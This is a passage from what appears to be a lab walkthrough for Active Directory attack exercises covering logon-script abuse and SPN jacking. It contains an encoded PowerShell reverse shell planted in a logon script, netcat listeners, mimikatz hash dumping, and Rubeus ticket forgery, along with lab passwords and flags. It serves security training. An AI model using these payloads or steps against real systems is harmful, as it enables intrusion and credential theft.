echo -n 'powershell -ExecutionPolicy Bypass -WindowStyle Hidden -EncodedCommand JABMAEgATwBTAFQAIAA9ACAAIgAxADAALgAxADAALgAxADYALgAxADMAIgA7ACAAJABMAFAATwBSAFQAIAA9ACAAMQAyADMANAA7ACAAJABUAEMAUABDAGwAaQBlAG4AdAAgAD0AIABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBTAG8AYwBrAGUAdABzAC4AVABDAFAAQwBsAGkAZQBuAHQAKAAkAEwASABPAFMAVAAsACAAJABMAFAATwBSAFQAKQA7ACAAJABOAGUAdAB3AG8AcgBrAFMAdAByAGUAYQBtACAAPQAgACQAVABDAFAAQwBsAGkAZQBuAHQALgBHAGUAdABTAHQAcgBlAGEAbQAoACkAOwAgACQAUwB0AHIAZQBhAG0AUgBlAGEAZABlAHIAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtAFIAZQBhAGQAZQByACgAJABOAGUAdAB3AG8AcgBrAFMAdAByAGUAYQBtACkAOwAgACQAUwB0AHIAZQBhAG0AVwByAGkAdABlAHIAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAEkATwAuAFMAdAByAGUAYQBtAFcAcgBpAHQAZQByACgAJABOAGUAdAB3AG8AcgBrAFMAdAByAGUAYQBtACkAOwAgACQAUwB0AHIAZQBhAG0AVwByAGkAdABlAHIALgBBAHUAdABvAEYAbAB1AHMAaAAgAD0AIAAkAHQAcgB1AGUAOwAgACQAQgB1AGYAZgBlAHIAIAA9ACAATgBlAHcALQBPAGIAagBlAGMAdAAgAFMAeQBzAHQAZQBtAC4AQgB5AHQAZQBbAF0AIAAxADAAMgA0ADsAIAB3AGgAaQBsAGUAIAAoACQAVABDAFAAQwBsAGkAZQBuAHQALgBDAG8AbgBuAGUAYwB0AGUAZAApACAAewAgAHcAaABpAGwAZQAgACgAJABOAGUAdAB3AG8AcgBrAFMAdAByAGUAYQBtAC4ARABhAHQAYQBBAHYAYQBpAGwAYQBiAGwAZQApACAAewAgACQAUgBhAHcARABhAHQAYQAgAD0AIAAkAE4AZQB0AHcAbwByAGsAUwB0AHIAZQBhAG0ALgBSAGUAYQBkACgAJABCAHUAZgBmAGUAcgAsACAAMAAsACAAJABCAHUAZgBmAGUAcgAuAEwAZQBuAGcAdABoACkAOwAgACQAQwBvAGQAZQAgAD0AIAAoAFsAdABlAHgAdAAuAGUAbgBjAG8AZABpAG4AZwBdADoAOgBVAFQARgA4ACkALgBHAGUAdABTAHQAcgBpAG4AZwAoACQAQgB1AGYAZgBlAHIALAAgADAALAAgACQAUgBhAHcARABhAHQAYQAgAC0AMQApACAAfQA7ACAAaQBmACAAKAAkAFQAQwBQAEMAbABpAGUAbgB0AC4AQwBvAG4AbgBlAGMAdABlAGQAIAAtAGEAbgBkACAAJABDAG8AZABlAC4ATABlAG4AZwB0AGgAIAAtAGcAdAAgADEAKQAgAHsAIAAkAE8AdQB0AHAAdQB0ACAAPQAgAHQAcgB5ACAAewAgAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACgAJABDAG8AZABlACkAIAAyAD4AJgAxACAAfQAgAGMAYQB0AGMAaAAgAHsAIAAkAF8AIAB9ADsAIAAkAFMAdAByAGUAYQBtAFcAcgBpAHQAZQByAC4AVwByAGkAdABlACgAIgAkAE8AdQB0AHAAdQB0AGAAbgAiACkAOwAgACQAQwBvAGQAZQAgAD0AIAAkAG4AdQBsAGwAIAB9ACAAfQA7ACAAJABUAEMAUABDAGwAaQBlAG4AdAAuAEMAbABvAHMAZQAoACkAOwAgACQATgBlAHQAdwBvAHIAawBTAHQAcgBlAGEAbQAuAEMAbABvAHMAZQAoACkAOwAgACQAUwB0AHIAZQBhAG0AUgBlAGEAZABlAHIALgBDAGwAbwBzAGUAKAApADsAIAAkAFMAdAByAGUAYQBtAFcAcgBpAHQAZQByAC4AQwBsAG8AcwBlACgAKQA=
' > logonScript.bat
```

Subsequently, they will upload the `logonScript.bat` into the `WaynesScripts` directory of the `NETLOGON` share:

```shell
smbclient //STMIP/NETLOGON -U julio%'SecurePassJul!08' --directory WaynesScripts -c "put logonScript.bat"
```



Students will reuse the example from the section while modifying the user from `eric` to `wayne`:

```shell
echo "dn: CN=wayne,CN=Users,DC=inlanefreight,DC=local
changetype: modify
replace: scriptPath
scriptPath: WaynesScripts\logonScript.bat" > logonScript.ldif
```

With the creation of the `.ldif` file, students will use `ldapmodify` to modify the `scriptPath` holding the new value:

```shell
ldapmodify -H ldap://STMIP -x -D 'julio' -w 'SecurePassJul!08' -f  logonScript.ldif  
```



Right after, students will start a netcat listener on port `9001`, on which they will receive the reverse shell connection in a few moments and grab the flag from `C:\Users\Wayne\Desktop\`:

```shell
nc -nvlp 9001
type C:\Users\Wayne\Desktop\flag.txt
```



Answer: `HTB{eb047f7fd26005d6444ec1b8e4f10de1}`

## Question 2

### "Abuse the rights of the user 'Julio' and submit the flag in 'C:\Users\Benjamin\Desktop\flag.txt'."

Students will reuse the target from the previous question and establish an RDP connection with the credentials `julio:SecurePassJul!08`.

```shell
xfreerdp /v:STMIP /u:julio /p:'SecurePassJul!08' /dynamic-resolution
```

Once connected, students need to open `PowerShell`, navigate to `C:\Tools`, import `PowerView`, and enumerate the rights of Julio over the users in the domain using `Get-DomainObjectAcl` cmdlet, finding out that Julio has `ReadProperty` over the user `Benjamin`:

Code: powershell

```powershell
cd C:\Tools
Import-Module .\PowerView.ps1
```

```
$julioSID = (Get-DomainUser -Identity julio).objectsid
Get-DomainObjectAcl -ResolveGUIDs | ?{$_.SecurityIdentifier -eq $julioSID}
```



Students will query the `scriptPath` property of the user `benjamin` using the `Get-DomainObject` cmdlet and enumerate Julio's permissions over the uncovered `.bat` file, where Julio has read, execute, and write permissions:

```powershell-session
Get-DomainObject benjamin -Properties scriptPath
```



```powershell
Get-DomainObject benjamin -Properties scriptPath
icacls \\DC03\netlogon\CCEDF2EBD2F1\DACEEFD3AFA1\32DCB1ACDBFE\12E1CD03F3E1\12E1CD03F3E1.bat
```



Students can read the file's contents, finding out that the user doesn't have a `logonScript` configured yet.

```powershell
type \\inlanefreight.local\sysvol\inlanefreight.local\scripts\CCEDF2EBD2F1\DACEEFD3AFA1\32DCB1ACDBFE\12E1CD03F3E1\12E1CD03F3E1.bat
```



Subsequently, students will need to reuse the same script in the previous question, making sure to change the port number:

```shell
python3 -c 'import base64; print(base64.b64encode((r"""$LHOST = "PWNIP"; $LPORT = PWNPO; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()""").encode("utf-16-le")).decode())'
```



With the base64 reverse shell, students will proceed to use `notepad` to open the `.bat` file:

```powershell
notepad \\inlanefreight.local\sysvol\inlanefreight.local\scripts\CCEDF2EBD2F1\DACEEFD3AFA1\32DCB1ACDBFE\12E1CD03F3E1\12E1CD03F3E1.bat
```

Subsequently, they will place the payload from the previous question and save the changes:



On their workstations, students will start a netcat listener on port 9002. After a few moments, they will receive a reverse shell connection, and subsequently, they can grab the flag from `C:\Users\Benjamin\Desktop\` :

```shell
nc -nvlp 9002
type C:\Users\Benjamin\Desktop\flag.txt
```



Answer: `HTB{0890f49418cd8bc45c727a99360003d6}`

# SPN Jacking

## Question 1

### "Which computer other than DBSRV003 does not exist in the domain and left an orphaned SPN?"

After spawning the target, students need to establish an RDP connection using the credentials `gabriel:Godisgood001`:

Code: shell

```shell
xfreerdp /v:STMIP /u:gabriel /p:'Godisgood001' /dynamic-resolution
```

SPN Jacking

```shell-session
┌─[us-academy-2]─[10.10.14.134]─[htb-ac-8414@htb-cwadka1l6r]─[~]
└──╼ [★]$ xfreerdp /v:10.129.229.164 /u:gabriel /p:'Godisgood001' /dynamic-resolution

[10:54:00:491] [3629:3630] [INFO][com.freerdp.crypto] - creating directory /home/htb-ac-8414/.config/freerdp
[10:54:00:491] [3629:3630] [INFO][com.freerdp.crypto] - creating directory [/home/htb-ac-8414/.config/freerdp/certs]
[10:54:00:491] [3629:3630] [INFO][com.freerdp.crypto] - created directory [/home/htb-ac-8414/.config/freerdp/server]
[10:54:00:663] [3629:3630] [WARN][com.freerdp.crypto] - Certificate verification failure 'self signed certificate (18)' at stack position 0
[10:54:00:663] [3629:3630] [WARN][com.freerdp.crypto] - CN = SRV01.inlanefreight.local
[10:54:00:663] [3629:3630] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[10:54:00:663] [3629:3630] [ERROR][com.freerdp.crypto] - @           WARNING: CERTIFICATE NAME MISMATCH!           @
[10:54:00:663] [3629:3630] [ERROR][com.freerdp.crypto] - @@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@
[10:54:00:663] [3629:3630] [ERROR][com.freerdp.crypto] - The hostname used for this connection (10.129.229.164:3389) 
[10:54:00:663] [3629:3630] [ERROR][com.freerdp.crypto] - does not match the name given in the certificate:
[10:54:00:663] [3629:3630] [ERROR][com.freerdp.crypto] - Common Name (CN):
[10:54:00:663] [3629:3630] [ERROR][com.freerdp.crypto] - 	SRV01.inlanefreight.local
[10:54:00:663] [3629:3630] [ERROR][com.freerdp.crypto] - A valid certificate for the wrong name should NOT be trusted!
Certificate details for 10.129.229.164:3389 (RDP-Server):
	Common Name: SRV01.inlanefreight.local
	Subject:     CN = SRV01.inlanefreight.local
	Issuer:      CN = SRV01.inlanefreight.local
	Thumbprint:  c4:57:2d:94:e7:3e:93:c0:fc:ab:38:6e:d8:6c:fa:9d:ab:a6:5d:70:0d:fc:d0:95:04:d6:84:4b:36:3d:a1:24
The above X.509 certificate could not be verified, possibly because you do not have
the CA certificate in your certificate store, or the certificate has expired.
Please look at the OpenSSL documentation on how to add a private CA to the store.
Do you trust the above certificate? (Y/T/N) Y
```

Subsequently, students need to open `PowerShell`, navigate to `C:\Tools`, and import `PowerView.ps1` and `Get-ConstrainedDelegation.ps1`:

Code: powershell

```powershell
cd C:\Tools
Import-Module .\PowerView.ps1
Import-Module .\Get-ConstrainedDelegation.ps1
```

SPN Jacking

```powershell-session
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\gabriel> cd C:\Tools
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Import-Module .\Get-ConstrainedDelegation.ps1
```

They will proceed to utilize the `Get-ConstrainedDelegation -CheckOrphaned` cmdlet to display the value of the `msDS-AllowedToDelegateTo` attribute while checking only for orphaned service principal names:

Code: powershell

```powershell
Get-ConstrainedDelegation -CheckOrphaned
```

SPN Jacking

```powershell-session
PS C:\Tools> Get-ConstrainedDelegation -CheckOrphaned

ComputerName TargetServer SPN
------------ ------------ ---
SRV01        WS01         www/WS01
SRV01        WS01         www/WS01.inlanefreight.local
SRV01        DATABASE01   dhcp/DATABASE01
SRV01        DATABASE01   dhcp/DATABASE01.inlanefreigth.local
```

Answer: {hidden}

# SPN Jacking

## Question 2

### "Which user has WriteSPN or its equivalent on SRVWEB07 (use the name, omit the domain)?"

Utilizing the previously established RDP session, students will proceed to create a variable that will hold an array of the users' SIDs. Subsequently, they will query the `SRVWEB07` computer's ACLs.

Code: powershell

```powershell
$sids = (Get-DomainUser).objectsid
Get-DomainComputer SRVWEB07 | Get-DomainObjectAcl -ResolveGUIDs | Where-Object { $sids -contains $_.SecurityIdentifier.Value}
```

SPN Jacking

```powershell-session
PS C:\Tools> $sids = (Get-DomainUser).objectsid
PS C:\Tools> Get-DomainComputer SRVWEB07 | Get-DomainObjectAcl -ResolveGUIDs | Where-Object { $sids -contains $_.SecurityIdentifier.Value}


AceQualifier           : AccessAllowed
ObjectDN               : CN=SRVWEB07,CN=Computers,DC=inlanefreight,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Validated-SPN
ObjectSID              : S-1-5-21-831407601-1803900599-2479021482-1611
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-831407601-1803900599-2479021482-1112
AccessMask             : 32
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceType               : AccessAllowed
ObjectDN              : CN=SRVWEB07,CN=Computers,DC=inlanefreight,DC=local
ActiveDirectoryRights : ReadProperty, GenericExecute
OpaqueLength          : 0
ObjectSID             : S-1-5-21-831407601-1803900599-2479021482-1611
InheritanceFlags      : None
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-831407601-1803900599-2479021482-1112
AccessMask            : 131092
AuditFlags            : None
AceFlags              : None
AceQualifier          : AccessAllowed
```

Right after, they will proceed to convert the SID in the `SecurityIdentifier` attribute with `ConvertFrom-SID`:

Code: powershell

```powershell
ConvertFrom-SID S-1-5-21-831407601-1803900599-2479021482-1112
```

SPN Jacking

```powershell-session
PS C:\Tools> ConvertFrom-SID S-1-5-21-831407601-1803900599-2479021482-1112
```

Answer: {hidden}

# SPN Jacking

## Question 3

### "Which user other than gabriel has WriteSPN on WEB01?"

Students will proceed to reuse the RDP session and the previously created variable that holds an array of the users' SIDs with the `Get-DomainComputer` cmdlet:

Code: powershell

```powershell
Get-DomainComputer WEB01 | Get-DomainObjectAcl -ResolveGUIDs |Where-Object ActiveDirectoryRights -eq WriteProperty | Where-Object { $sids -contains $_.SecurityIdentifier.Value}
```

SPN Jacking

```powershell-session
PS C:\Tools> Get-DomainComputer WEB01 | Get-DomainObjectAcl -ResolveGUIDs |Where-Object ActiveDirectoryRights -eq WriteProperty | Where-Object { $sids -contains $_.SecurityIdentifier.Value}


AceQualifier           : AccessAllowed
ObjectDN               : CN=WEB01,OU=Servers,DC=inlanefreight,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Validated-SPN
ObjectSID              : S-1-5-21-831407601-1803900599-2479021482-1117
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-831407601-1803900599-2479021482-1106
AccessMask             : 32
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

AceQualifier           : AccessAllowed
ObjectDN               : CN=WEB01,OU=Servers,DC=inlanefreight,DC=local
ActiveDirectoryRights  : WriteProperty
ObjectAceType          : Validated-SPN
ObjectSID              : S-1-5-21-831407601-1803900599-2479021482-1117
InheritanceFlags       : None
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-831407601-1803900599-2479021482-1112
AccessMask             : 32
AuditFlags             : None
IsInherited            : False
AceFlags               : None
InheritedObjectAceType : All
OpaqueLength           : 0

<SNIP>
```

Subsequently, students will need to convert the SID in the `SecurityIdentifier` attribute using `ConvertFrom-SID`:

Code: powershell

```powershell
ConvertFrom-SID S-1-5-21-831407601-1803900599-2479021482-1112
```

SPN Jacking

```powershell-session
PS C:\Tools> ConvertFrom-SID S-1-5-21-831407601-1803900599-2479021482-1112
```

Answer: {hidden}

# SPN Jacking

## Question 4

### "Abuse Gabriel's rights to compromise the account that has WriteSPN on SRVWEB07. Use the live SPN Jacking technique to compromise WEB01 using SRVWEB07 SPN and read the flag located at C:\Users\Administrator\Desktop\flag.txt."

With the previously established RDP session, students will have to query the ACL over the user found from the other exercises to uncover the `GenericAll` right:

Code: powershell

```powershell
$gabriel = (Get-DomainUser gabriel).objectsid
Get-DomainObjectAcl -Identity elieser | ?{$_.SecurityIdentifier -eq $gabriel}
```

SPN Jacking

```powershell-session
PS C:\Tools> $gabriel = (Get-DomainUser gabriel).objectsid
PS C:\Tools> Get-DomainObjectAcl -Identity elieser | ?{$_.SecurityIdentifier -eq $gabriel}

ObjectDN              : CN=elieser,CN=Users,DC=inlanefreight,DC=local
ObjectSID             : S-1-5-21-831407601-1803900599-2479021482-1112
ActiveDirectoryRights : GenericAll
BinaryLength          : 36
AceQualifier          : AccessAllowed
IsCallback            : False
OpaqueLength          : 0
AccessMask            : 983551
SecurityIdentifier    : S-1-5-21-831407601-1803900599-2479021482-1106
AceType               : AccessAllowed
AceFlags              : None
IsInherited           : False
InheritanceFlags      : None
PropagationFlags      : None
AuditFlags            : None
```

They will proceed to change the password of the user using the `Set-DomainUserPassword` cmdlet:

Code: powershell

```powershell
$UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
Set-DomainUserPassword -Identity elieser -AccountPassword $UserPassword -Verbose
```

SPN Jacking

```powershell-session
PS C:\Tools> $UserPassword = ConvertTo-SecureString 'Password123!' -AsPlainText -Force
PS C:\Tools> Set-DomainUserPassword -Identity elieser -AccountPassword $UserPassword -Verbose
VERBOSE: [Set-DomainUserPassword] Attempting to set the password for user 'elieser'
VERBOSE: [Set-DomainUserPassword] Password for user 'elieser' successfully reset
```

Subsequently, students will proceed to create a sacrificial logon session using `Rubeus` and `createnetonly` while specifying `PowerShell` as the program to be spawned:

Code: powershell

```powershell
.\Rubeus.exe createnetonly /program:powershell.exe /username:elieser /password:'Password123!' /domain:inlanefreight.local /show
```

SPN Jacking

```powershell-session
PS C:\Tools> .\Rubeus.exe createnetonly /program:powershell.exe /username:elieser /password:'Password123!' /domain:inlanefreight.local /show

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


[*] Action: Create Process (/netonly)


[*] Using inlanefreight.local\elieser:Password123!

[*] Showing process : True
[*] Username        : elieser
[*] Domain          : inlanefreight.local
[*] Password        : Password123!
[+] Process         : 'powershell.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 5000
[+] LUID            : 0x1facf7
```

Students will proceed to import `PowerView.ps1` and query the `serviceprincipalname` attribute of the `SRVWEB07` computer and note down the `MSSQL/SRVWEB07` attribute which will be used later:

Code: powershell

```powershell
Import-Module .\PowerView.ps1
Get-DomainComputer SRVWEB07 | Select-Object -ExpandProperty serviceprincipalname
```

SPN Jacking

```powershell-session
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> Get-DomainComputer SRVWEB07 | Select-Object -ExpandProperty serviceprincipalname
WSMAN/SRVWEB07.inlanefreight.local
WSMAN/SRVWEB07
TERMSRV/SRVWEB07.inlanefreight.local
TERMSRV/SRVWEB07
RestrictedKrbHost/SRVWEB07.inlanefreight.local
RestrictedKrbHost/SRVWEB07
MSSQL/SRVWEB07.inlanefreight.local
MSSQL/SRVWEB07
HOST/SRVWEB07.inlanefreight.local
HOST/SRVWEB07
```

Students need to open another `PowerShell` window as `Administrator`, navigate to `C:\Tools`, and use `mimikatz` to dump the NTLM hash of the SRV01 computer account:

Code: powershell

```powershell
cd C:\Tools
.\mimikatz.exe "sekurlsa::logonpasswords" exit
```

SPN Jacking

```powershell-session
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd C:\Tools
PS C:\Tools> .\mimikatz.exe "sekurlsa::logonpasswords" exit

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # sekurlsa::logonpasswords

<SNIP>

Authentication Id : 0 ; 358486 (00000000:00057856)
Session           : Service from 0
User Name         : MSSQL$MICROSOFT##WID
Domain            : NT SERVICE
Logon Server      : (null)
Logon Time        : 5/21/2024 4:54:05 AM
SID               : S-1-5-80-1184457765-4068085190-3456807688-2200952327-3769537534
        msv :
         [00000003] Primary
         * Username : SRV01$
         * Domain   : INLANEFREIGHT
         * NTLM     : d87f115c478f887df69b45d60d87b558
         * SHA1     : 786bb6cef1d2847ad13b95cdfdc6ce16a7139732
<SNIP>
```

Having obtained the NTLM hash of the computer account, students will return to the `PowerShell` window spawned as a sacrificial logon session, where they will proceed to perform a `Live SPN-jacking` attack:

Code: powershell

```powershell
Set-DomainObject -Identity SRVWEB07 -Clear 'serviceprincipalname' -Verbose
Set-DomainObject -Identity WEB01 -Set @{serviceprincipalname='MSSQL/SRVWEB07'} -Verbose
```

SPN Jacking

```powershell-session
PS C:\Tools> Set-DomainObject -Identity SRVWEB07 -Clear 'serviceprincipalname' -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC02.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=SRVWEB07)(name=SRVWEB07)(displayname=SRVWEB07))))
VERBOSE: [Set-DomainObject] Clearing 'serviceprincipalname' for object 'SRVWEB07$'

PS C:\Tools> Set-DomainObject -Identity WEB01 -Set @{serviceprincipalname='MSSQL/SRVWEB07'} -Verbose

VERBOSE: [Get-DomainSearcher] search base: LDAP://DC02.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=WEB01)(name=WEB01)(displayname=WEB01))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'MSSQL/SRVWEB07' for object 'WEB01$'
```

Students will proceed to request a ticket using `s4u` within `Rubeus`:

Code: powershell

```powershell
.\Rubeus.exe s4u /domain:inlanefreight.local /user:SRV01$ /rc4:d87f115c478f887df69b45d60d87b558 /impersonateuser:administrator /msdsspn:"MSSQL/SRVWEB07" /nowrap
```

SPN Jacking

```powershell-session
PS C:\Tools> .\Rubeus.exe s4u /domain:inlanefreight.local /user:SRV01$ /rc4:d87f115c478f887df69b45d60d87b558 /impersonateuser:administrator /msdsspn:"MSSQL/SRVWEB07" /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2

[*] Action: S4U

[*] Using rc4_hmac hash: d87f115c478f887df69b45d60d87b558
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.local\SRV01$'
[*] Using domain controller: 172.16.92.10:88
[+] TGT request successful!
[*] base64(ticket.kirbi):

<SNIP>

[*] Impersonating user 'administrator' to target SPN 'MSSQL/SRVWEB07'
[*] Building S4U2proxy request for service: 'MSSQL/SRVWEB07'
[*] Using domain controller: DC02.inlanefreight.local (172.16.92.10)
[*] Sending S4U2proxy request to domain controller 172.16.92.10:88
[+] S4U2proxy success!
[*] base64(ticket.kirbi) for SPN 'MSSQL/SRVWEB07':

      doIGp <SNIP> JWV0VCMDc=
```

They will proceed to utilize the obtained ticket, which is going to be used in the `tgssub` action for obtaining a ticket-service granting ticket where the `/altservice` option is going to be used specifying the `CIFS/WEB01` service for substitution while importing the ticket into memory:

Code: powershell

```powershell
.\Rubeus.exe tgssub /ticket:doIGp <SNIP> V0VCMDc= /altservice:CIFS/WEB01 /nowrap /ptt
```

SPN Jacking

```powershell-session
PS C:\Tools> .\Rubeus.exe tgssub /ticket:doIGpjCCBqK <SNIP> 0VCMDc= /altservice:CIFS/WEB01 /nowrap /ptt

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2


[*] Action: Service Ticket sname Substitution

[*] Substituting in alternate service name: CIFS/WEB01

  ServiceName              :  CIFS/WEB01
  ServiceRealm             :  INLANEFREIGHT.LOCAL
  UserName                 :  administrator (NT_ENTERPRISE)
  UserRealm                :  INLANEFREIGHT.LOCAL
  StartTime                :  5/21/2024 6:02:33 AM
  EndTime                  :  5/21/2024 4:02:32 PM
  RenewTill                :  5/28/2024 6:02:32 AM
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
  KeyType                  :  aes128_cts_hmac_sha1
  Base64(key)              :  fCirZggLn33tvbRcuJR1fQ==

<SNIP>

[+] Ticket successfully imported!
```

Students can proceed to obtain the flag from `\\WEB01\Users\Administrator\Desktop`:

Code: powershell

```powershell
type \\WEB01\Users\Administrator\Desktop\flag.txt
```

SPN Jacking

```powershell-session
PS C:\Tools> type \\WEB01\Users\Administrator\Desktop\flag.txt
```

Answer: {hidden}

# sAMAccountName Spoofing

## Question 1

### "How many machines did aneudy create?"

After spawning the target, students need to connect via RDP on port `13389` using the credentials `aneudy:Ilovemusic01`:

Code: shell

```shell
